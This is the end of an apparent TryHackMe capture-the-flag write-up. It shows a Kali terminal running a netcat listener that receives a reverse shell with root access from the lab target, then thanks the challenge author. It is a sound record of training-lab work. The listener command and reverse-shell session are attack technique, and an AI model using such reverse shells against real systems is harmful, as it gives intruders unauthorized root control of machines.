 ```console
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nc -lvp 4447
listening on [any] 4447 ...
10.10.115.84: inverse host lookup failed: Unknown host
connect to [10.61.1] from (UNKNOWN) [10.10.115.84] 60730
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```

Much thanks to [Ingo](https://tryhackme.com/p/Ingo) for the imaginative challenge!
